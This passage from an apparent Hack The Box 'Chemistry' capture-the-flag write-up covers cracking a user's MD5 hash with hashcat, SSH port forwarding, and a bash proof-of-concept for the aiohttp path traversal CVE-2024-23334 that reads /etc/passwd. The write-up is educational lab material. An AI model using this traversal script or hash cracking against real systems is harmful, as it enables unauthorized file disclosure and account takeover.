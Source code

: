 {{<figure src="/img/htb/chemistry/hashes.png" position=center caption="Users' hashes">}}

Let's try to crack the hash of the user `rosa`, since they are on the machine:

```bash
hashcat -m 0 '<HASH>' /usr/share/wordlists/rockyou.txt
```

{{<figure src="/img/htb/chemistry/rosa_cracked.png" position=center caption="">}}

We can ssh as `rosa` and retrieve the user flag

{{<figure src="/img/htb/chemistry/user.png" position=center caption="Usdr flag obtained !">}}

## Root Flag
After some enumeration, we find out that something is running on `127.0.0.1:8080`

{{<figure src="/img/htb/chemistry/netstat.png" position=center caption="Netstat output">}}

We can forward that port to our machine with:

```bash
ssh -L 8080:127.0.0.1:8080 rosa@10.10.11.38
```

Now after going to `http://127.0.0.1:8080`, we get access to this website allowing us to list services:

{{<figure src="/img/htb/chemistry/monitoring_site.png" position=center caption="Monitoring website">}}

Looking at the response headers, we see something unusual for the `Server` header (`Python/3.9 aiohttp/3.9.1`):

{{<figure src="/img/htb/chemistry/res_headers.png" position=center caption="_Response Headers_">}}

After some reasearch, we see that it might be vulnerable to CVE-2024-23334 which is a path traversal vulnerability.

Using this [poc](https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh) (with some little changes):

```bash
#!/bin/bash

url="http://127.0.0.1:8080"
string="../"
payload="/"
file="etc/passwd"

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"

    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```
